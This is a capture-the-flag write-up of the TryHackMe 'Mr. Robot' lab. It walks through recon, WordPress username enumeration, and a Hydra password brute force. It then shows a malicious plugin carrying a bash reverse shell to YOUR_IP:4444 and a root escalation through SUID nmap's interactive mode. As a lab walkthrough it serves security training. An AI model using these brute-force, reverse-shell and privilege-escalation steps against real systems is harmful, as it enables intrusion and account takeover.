




# Mr. Robot — Writeup

**Platform:** TryHackMe  
**Difficulty:** Medium  
**OS:** Linux  
**Techniques:** Web enumeration, WordPress brute force, malicious plugin, SUID privesc

---

## Reconnaissance

### Nmap

```bash
nmap -sS -sC -sV -Pn 10.129.167.131
```

Results:

- Port 22 — SSH (open)
- Port 80 — HTTP (closed on scan but accessible)
- Port 443 — HTTPS (closed on scan but accessible)

### Web Enumeration — Gobuster

```bash
gobuster dir -u http://10.129.167.131 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 50
```


Relevant results:

| Path            | Status | Notes                       |
| --------------- | ------ | --------------------------- |
| `/robots.txt`   | 200    | Contains hidden paths       |
| `/wp-login.php` | 200    | WordPress login             |
| `/wp-admin`     | 301    | Admin panel                 |
| `/readme`       | 200    | Message with no useful info |
| `/.htpasswd`    | 403    | Forbidden                   |

---

## Key 1

`/robots.txt` reveals two entries:


```
key-1-of-3.txt
fsocity.dic
```

Navigating to `http://10.129.167.131/key-1-of-3.txt` → **first key obtained**.

`fsocity.dic` is a wordlist with over 800,000 entries (many duplicates). Downloaded for later use:

```bash
# Remove duplicates to reduce size
sort -u fsocity.dic > dic_clean.txt
```

---

## WordPress Access

### User Enumeration

WordPress leaks whether a user exists through different error messages:

- Non-existent user → `ERROR: Invalid username`
- Valid user but wrong password → `ERROR: The password you entered for the username X is incorrect`

Testing `elliot` (main character of the Mr. Robot series) → the server confirms the user exists.


### Brute Force with Hydra

With the username confirmed, we launch Hydra against the WordPress login using `fsocity.dic` as the wordlist:

```bash
hydra -l elliot -P dic_clean.txt 10.129.167.131 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=incorrect" -V -t 16
```

> **Note:** The correct path is `/wp-login.php` (the form's `action` attribute), not `/`. Form field names are `log` and `pwd` — verified from the page source.

Password found: `ER28-0652`


---

## Initial Shell — WordPress Malicious Plugin

With access to the WordPress admin panel (`/wp-admin`), we abuse the plugin upload functionality to execute PHP code on the server.


### Create the Payload

Create a PHP file with a bash reverse shell:


```bash
cat > shell.php << 'EOF'
<?php
/**
 * Plugin Name: Shell
 */
exec("/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1'");
EOF
```

Alternatively, use the **Theme Editor** (`Appearance → Theme Editor`) to edit an existing PHP file like `404.php` with the same payload.

### Upload and Activate

WordPress only accepts plugins as ZIP files:

```bash
zip shell.zip shell.php
```

`Plugins` → `Add New` → `Upload Plugin` → upload `shell.zip` → `Install Now`

Before activating, start a Netcat listener:

```bash
nc -lvnp 4444
```

Activate the plugin → **reverse shell received as `daemon`**.

### Stabilize the Shell

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
# Ctrl+Z
stty raw -echo; fg
```

---

## Key 2 — Escalate to `robot` User

Inside `/home/robot` we find two files:





- `key-2-of-3.txt` — permission denied (owned by `robot`)
- `password.raw-md5` — MD5 hash of `robot`'s password

### SUID Enumeration

```bash
find / -perm -4000 2>/dev/null
```

Key finding: `/usr/local/bin/nmap` has the SUID bit set.



### Privesc via Interactive Nmap

Older versions of Nmap (3.x–5.x) include an interactive mode that allows command execution as the binary's owner (root):

```bash
nmap --interactive
!sh
```

```bash
whoami
# root
```



### Alternative (without SUID)

Crack the MD5 hash in `password.raw-md5` using John or Hashcat to get `robot`'s password, then `su robot`.

---

## Key 3 — Root

With root access:

```bash
cat /home/robot/key-2-of-3.txt   # Key 2
cat /root/key-3-of-3.txt         # Key 3
```

---

## Techniques Summary

|Phase|Technique|
|---|---|
|Reconnaissance|Nmap, Gobuster|
|Info disclosure|robots.txt exposes sensitive files|
|User enumeration|WordPress error messages|
|Brute force|Hydra + http-post-form|
|Initial access|WordPress malicious plugin (PHP reverse shell)|
|Privesc|SUID nmap → interactive shell as root|

---

## Lessons Learned

> WordPress with weak credentials + accessible admin panel = guaranteed RCE. Plugin upload is essentially arbitrary code execution if you have admin access.

> SUID on `nmap` is a classic privesc vector — any binary with SUID that shouldn't have it is a potential attack surface. Check [GTFOBins](https://gtfobins.github.io/) for SUID binary exploits.

> `robots.txt` should never be used to "hide" sensitive paths — it's public by definition and scanners read it automatically.

> Deduplicating wordlists with `sort -u` before brute forcing can cut runtime from 5 hours to 5 minutes.